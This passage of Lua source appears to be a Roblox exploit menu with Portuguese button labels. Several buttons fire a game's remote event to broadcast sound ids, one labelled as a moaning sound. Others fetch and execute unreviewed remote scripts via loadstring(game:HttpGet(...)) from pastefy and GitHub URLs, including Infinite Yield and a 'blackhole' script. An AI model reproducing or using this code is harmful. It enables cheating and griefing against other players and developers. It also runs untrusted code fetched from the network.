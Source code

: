 game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
    end
})

MainTab:AddButton({
    Title = "id gemido",
    Callback = function()
        print("Botão clicado!")local args = {
    [1] = workspace,
    [2] = 8107899910,
    [3] = 1
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
    end
})


local MainTab = Window:AddTab({ Title = "scripts v3😈" })

MainTab:AddButton({
    Title = "cleiti brookhaven ",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet("https://pastefy.app/ta8BeBZc/raw"))()
    end
})

MainTab:AddButton({
    Title = "script sus",
    Callback = function()
        print("Botão clicado!")--Made by muscle_legends2021 (Gio)
--YouTube: GioBolqvi

loadstring(game:HttpGet("https://pastefy.app/YZoglOyJ/raw"))()
    end
})

MainTab:AddButton({
    Title = "serpente x",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet("https://raw.githubusercontent.com/err0r129/SerpenteXbetaByDefense129/main/Serpente.Scripts"))()
    end
})

MainTab:AddButton({
    Title = "infinite yield",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
    end
})

MainTab:AddButton({
    Title = "fe blackhole",
    Callback = function()
        print("Botão clicado!")
loadstring(game:HttpGet("https://raw.githubusercontent.com/GoofyBlox/GoofyZ/refs/heads/main/Best/Vortex.lua", true))()
    end
})
